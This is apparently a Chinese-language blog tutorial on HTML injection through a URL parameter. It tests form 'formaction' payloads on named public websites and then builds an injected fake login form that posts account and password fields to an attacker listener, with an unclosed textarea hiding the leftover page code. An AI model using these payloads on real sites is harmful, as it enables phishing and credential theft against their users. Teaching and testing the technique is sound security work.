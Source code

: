 先找一个互联网 web 服务页面测试 

这个页面必须要是 url 后面接着不存在的参数时仍然能正常显示的页面像下方页面这样  

比如喜马拉雅首页网址后带有不存在的参数时仍然能访问成功

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbqiaib8MgDakQia4xG1svoqSpib2KlXWxulJibRD32do5yjPDCyOBfCP9SsQ/640?wx_fmt=png)

```
payload
"><form><button formaction=https://www.ximalaya.com>clickMme</button><textarea name=x>
```

可惜在点击 clickMe 跳转后出现了 500 错误，这个例子失败了

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbLHvcHMhZaxk3d2rPoPyxj6L9xhM5NFYxhvLNzFjCnujiarBcH2Ir2eA/640?wx_fmt=png)

为什么会失败呢，我们点击 clickMe 后抓包看看

如下截图所示是应为喜马拉雅网站有进行 referer 验证  

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktb8RadmTnH2W4U3OhxibqAYxBPicug99Nib0Uk4cIlpx3J0cwDhIFJ9GUpg/640?wx_fmt=png)

喜马拉雅的例子失败了，那我们换个成功的例子看看  

```
payload
"><form><button formaction=https://www.runoob.com>clickMme</button><textarea name=x>
```

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktbjkJ1X9yicic5xXzoz1eyndMGnj235BEbgvDK3kXNu9yv2sbE3qpxjUWQ/640?wx_fmt=png)

如上方菜鸟驿站的例子所示我们实验成功了

那怎么才能吧这个漏洞点利用起来呢，接着看  

**制作钓鱼页面**
----------

```
payload：
"><form action="http://127.0.0.1:8000">
account: <input type="text" ><br>
password: <input type="text"  ><br>
<input type="submit" value="submit">
</form>
```

登入框是出来了，但是 videoid 参数的位置不止一处

所以出现了两个登入框，且还有很多冗余的代码

![](https://mmbiz.qpic.cn/mmbiz_png/XYnjkohc3gibGl5HcozmS2D1biaZBNhktb7YLb0Oxjwl6dA4ncFeHCyIZHHLlSkibb26cqMURfI91cI2zVTAAEF5Q/640?wx_fmt=png)

继续改进 payload，利用不闭合的`<textarea>`吸收掉登入框后多余的代码

```
payload:
"><form action="http://127.0.0.1:8000">
account: <input type="text" ><br>
password: <input type="text"  ><br>
<input type="submit" value="submit">
</form>
<textarea>
```
